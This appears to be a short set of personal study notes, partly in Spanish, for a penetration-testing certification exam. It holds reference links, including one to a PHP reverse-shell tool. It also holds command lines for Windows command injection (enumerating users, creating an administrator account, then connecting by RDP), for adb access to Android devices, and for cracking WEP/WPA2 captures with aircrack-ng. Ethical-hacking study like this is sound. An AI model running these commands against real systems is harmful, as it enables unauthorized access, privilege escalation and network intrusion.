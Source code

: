 > Estas son algunas referencias que me parece interesante tener en cuenta

### https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### https://www.invicti.com/learn/remote-code-execution-rce/

### https://swisskyrepo.github.io/InternalAllTheThings/

### https://github.com/Creanyx0/CEHv12-practical-Notes/blob/main/Elisa-Alises-NotesCEHv12.md

<br>

### Command Injection

``net user``  (Find users)
 		       
``dir C:\`` (directory listing)

``net user Test/Add``  (Add a user)

``net user Test``      (Check a user)

``net localgroup Administrators Test/Add``   (To convert the test account to admin)

``net user Test``      (Once again check to see if it has become administrator) *Now you can do a RDP connection with the given ip and the Test account which you created.*

<br>

### Conexion a Android

```adb connect IP:5555```    (Connect adb with parrot)

```adb shell```

<br>

### Cracking Wifi Password

```aircrack-ng [pcap file]``` **For cracking WEP network**

```aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file]``` **For cracking WPA2 or other networks through the captured .pcap file**

### IOT

Tener presente que el protocolo es MQTT
